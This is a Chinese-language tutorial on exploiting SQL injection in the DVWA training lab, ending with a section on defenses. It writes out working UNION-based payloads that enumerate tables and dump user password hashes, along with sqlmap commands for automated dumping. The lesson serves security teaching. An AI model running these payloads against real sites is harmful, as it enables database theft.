# 网络安全入门：P65：DVWA之SQL注入漏洞

## 概述
在本节课中，我们将学习SQL注入漏洞的基本原理、手工利用方法以及自动化工具SQLmap的使用。我们将以DVWA靶场为例，从判断漏洞、获取数据库信息到最终读取敏感数据，一步步演示攻击过程，并了解基础的防御思路。

---

## 启动靶场环境
上一节我们介绍了DVWA靶场的安装，本节中我们来看看如何利用其中的SQL注入漏洞。

首先，启动PHPStudy服务。启动完成后，打开浏览器访问DVWA。

访问DVWA后，需要进行登录。默认的用户名是`admin`，密码是`password`。

登录成功后，需要将DVWA的安全等级设置为最低级别（Low），以便进行漏洞学习。点击左侧的“DVWA Security”，将安全级别设置为“Low”，然后提交。

设置完成后，点击左侧的“SQL Injection”，进入存在漏洞的页面。该页面提供了一个用户ID输入框。

---

## 手工SQL注入漏洞利用

### 查看源码与理解SQL语句
在开始利用前，我们首先需要了解后端是如何处理用户输入的。DVWA提供了查看源码的功能。

滚动到页面底部，点击“View Source”查看源代码。代码中关键的一行SQL语句如下：
```sql
SELECT first_name, last_name FROM users WHERE user_id = '$id'
```
其中，`$id`变量代表用户输入的内容。我们的目标就是通过控制`$id`的值，来改变这条SQL语句的原本逻辑。

### 判断漏洞是否存在
判断SQL注入漏洞是否存在，有一个经典的方法：利用永真条件和永假条件。

以下是判断步骤：
1.  **构造永真条件**：在输入框中输入 `1' AND '1'='1`。注意，我们输入的单引号 `'` 是为了闭合SQL语句中原本的单引号，`AND '1'='1` 是一个永远为真的条件。点击“Submit”后，页面应正常返回用户ID为1的信息。
2.  **构造永假条件**：在输入框中输入 `1' AND '1'='2`。`AND '1'='2` 是一个永远为假的条件。点击“Submit”后，页面应没有数据返回或返回错误。

如果永真条件返回正常结果，而永假条件返回异常（无数据或报错），则基本可以断定存在SQL注入漏洞。这是因为我们注入的SQL逻辑（`AND`后面的条件）被数据库成功执行了。

### 获取数据库信息
确认漏洞存在后，我们可以利用它来获取数据库的敏感信息。首先需要判断当前查询结果返回的列数。

以下是操作步骤：
1.  **使用 `ORDER BY` 判断列数**：在输入框中输入 `1' ORDER BY 1#`。`ORDER BY 1` 表示按第一列排序，`#` 是注释符，用于注释掉SQL语句后续可能造成语法错误的部分。
2.  点击提交，如果页面正常显示，说明存在第一列。
3.  依次尝试 `1' ORDER BY 2#`，`1' ORDER BY 3#`... 当输入到某个数字（例如3）时页面报错，则说明查询结果共有（该数字-1）列。在本例中，`ORDER BY 3` 会报错，因此列数为2。

知道列数后，可以使用 `UNION SELECT` 联合查询来获取更多信息。

以下是获取数据库用户和名称的示例：
*   输入：`1' UNION SELECT user(), database()#`
*   `user()` 函数返回当前数据库连接的用户。
*   `database()` 函数返回当前使用的数据库名称。
*   执行后，页面会在原有数据下方额外显示两行结果，分别是数据库用户（如 `root@localhost`）和数据库名（如 `dvwa`）。

### 获取数据库中的表
知道了数据库名，下一步是探查该数据库中有哪些表。MySQL中有一个名为 `information_schema` 的系统数据库，它存储了所有数据库的元信息。

以下是查询 `dvwa` 数据库中所有表名的语句：
*   输入：`1' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema='dvwa'#`
*   执行后，页面会显示 `dvwa` 数据库中的所有表名，例如 `guestbook` 和 `users`。



### 获取表中的数据
通常，`users` 表是最吸引攻击者的目标，因为它可能包含用户名和密码。

以下是查询 `users` 表中用户名和密码的步骤：
1.  **先获取表的列名**：输入 `1' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_schema='dvwa' AND table_name='users'#`。此语句会列出 `users` 表的所有列名。
2.  **直接查询数据**：当我们知道列名后（例如 `user` 和 `password`），可以直接查询数据。输入：`1' UNION SELECT user, password FROM users#`。
3.  执行后，页面会显示所有用户的用户名和密码哈希值（通常是MD5加密）。这些哈希值可以尝试在在线MD5解密网站进行破解。









---

## 使用SQLmap进行自动化注入
手工注入虽然有助于理解原理，但过程繁琐。在实际测试中，我们更常使用自动化工具，如SQLmap。





### 启动SQLmap
SQLmap是一个用Python编写的开源渗透测试工具。你可以从其官网下载，或者在Kali Linux系统中直接使用（已预装）。





在命令行中，使用以下命令启动SQLmap：
```bash
python sqlmap.py
```

### 检测漏洞
首先，我们需要检测目标URL是否存在SQL注入漏洞。命令格式如下：
```bash
python sqlmap.py -u "http://your-dvwa-address/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="你的Cookie值"
```
*   `-u` 参数指定目标URL。
*   `--cookie` 参数用于提交已登录的会话Cookie（因为DVWA需要登录后才能访问漏洞页面）。Cookie值可以通过浏览器开发者工具（F12 -> 网络 -> 点击请求 -> 查看请求头中的Cookie）获取。





执行后，SQLmap会自动检测并确认是否存在漏洞及数据库类型。

### 获取数据库信息
确认漏洞后，可以逐步获取信息。





以下是常用命令：
1.  **列出所有数据库**：`python sqlmap.py -u "目标URL" --cookie="Cookie" --dbs`
2.  **列出指定数据库的所有表**：`python sqlmap.py -u "目标URL" --cookie="Cookie" -D dvwa --tables`
3.  **列出指定表的所有列**：`python sqlmap.py -u "目标URL" --cookie="Cookie" -D dvwa -T users --columns`
4.  **导出指定表的所有数据**：`python sqlmap.py -u "目标URL" --cookie="Cookie" -D dvwa -T users --dump`



执行 `--dump` 命令时，SQLmap会尝试读取并展示数据，如果密码是哈希值，还会询问是否尝试破解。





---






## SQL注入的防御
了解了攻击方法，防御思路就相对清晰了。核心原则是：**不要信任任何用户输入**。

以下是常见的防御方法：
*   **使用参数化查询（预编译语句）**：这是最有效的方法。将SQL语句的结构预先定义好，用户输入只作为参数传递，无法改变SQL语句本身的结构。
*   **对输入进行严格的过滤和转义**：例如，使用 `mysql_real_escape_string()`（PHP）等函数对用户输入中的特殊字符（如单引号）进行转义。
*   **使用Web应用防火墙（WAF）**：部署WAF可以识别并拦截常见的SQL注入攻击payload。
*   **最小权限原则**：数据库连接账户不应使用高权限账号（如root），应仅授予其必要的最小权限。

在DVWA中，将安全级别调整为“Medium”后，查看源码，会发现代码中使用了 `mysql_real_escape_string()` 函数对输入进行了转义，这就是一种基础的防御措施。

---

## 总结
本节课中我们一起学习了SQL注入漏洞的完整利用流程。
1.  我们首先学习了如何手工判断SQL注入漏洞，利用永真和永假条件进行测试。
2.  接着，我们逐步演示了如何获取数据库信息、表名、列名，并最终导出敏感数据。
3.  然后，我们介绍了强大的自动化工具SQLmap，演示了如何用它快速完成漏洞检测和数据获取。
4.  最后，我们简要了解了防御SQL注入的几种核心思路。



SQL注入是Web安全中最经典、危害也极大的漏洞之一。理解其原理和利用方式，是学习网络安全的重要基石。请务必在授权的靶场环境中进行练习。